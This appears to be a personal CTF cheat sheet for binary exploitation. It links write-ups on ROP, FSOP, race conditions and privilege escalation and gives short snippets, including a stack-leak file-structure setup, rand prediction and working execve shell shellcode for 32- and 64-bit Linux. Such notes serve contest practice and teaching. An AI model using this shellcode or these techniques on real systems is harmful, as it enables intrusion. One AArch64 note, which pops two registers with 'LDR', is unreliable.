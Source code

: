# CTFNote

## [Johnathan Huu Tri](https://github.com/nhtri2003gmail/CTFNote)

## [open-read-write](https://tripoloski1337.github.io/ctf/2021/07/12/bypassing-seccomp-prctl.html)

## [arm-syscall](https://chromium.googlesource.com/chromiumos/docs/+/master/constants/syscalls.md#linux-system-call-table)

## [FSOP-leak-stack](https://github.com/wan-hyhty/CTFs_competition/tree/main/ImaginaryCTF2023/mailman)

```python
f = FileStructure()
f.flags = 0xfbad1800
f._IO_read_base = libc.sym['environ']
f._IO_read_ptr = libc.sym['environ']+8
```

## [rand-vulnerability](https://hackmd.io/@whoisthatguy/rand)

```python
from ctypes import CDLL
libc = CDLL("/lib/x86_64-linux-gnu/libc.so.6")
libc.srand(libc.time(0))
```

## [race-condition](https://hackmd.io/@whoisthatguy/toctou?utm_source=preview-mode&utm_medium=rec)

## [ret2csu](https://hackmd.io/@whoisthatguy/ret2csu)

## [ret2dlresolve](https://hackmd.io/@whoisthatguy/ret2dlresolve)

## [rop-arm](http://blog.perfect.blue/ROPing-on-Aarch64)

## [Linux Privilege Escalation](https://github.com/RoqueNight/Linux-Privilege-Escalation-Basics)

`https://gtfobins.github.io/`

## [shellcode](https://docs.pwntools.com/en/stable/shellcraft.html)

```
32 bit: \x31\xC0\x50\x68\x2F\x2F\x73\x68\x68\x2F\x62\x69\x6E\x31\xDB\x31\xC9\x31\xD2\x89\xE3\x83\xC0\x0B\xCD\x80
64 bit: \x48\x31\xFF\x57\x48\xBF\x2F\x62\x69\x6E\x2F\x2F\x73\x68\x57\x48\x31\xF6\x48\x31\xD2\x48\x89\xE7\x48\x31\xC0\x48\x83\xC0\x3B\x0F\x05
```

## AARCH64
### LDR X0, X1, [SP], #16
- pop x0, x1
- Remember that in AArch64 the stack-pointer must be 128-bit aligned.
### STP X0, X1, [SP, #-16]!
- push x0, x1
### MOV X0, #1
- sets: X0 = 1
### MVN W0, W1
- sets: W0 = ~W1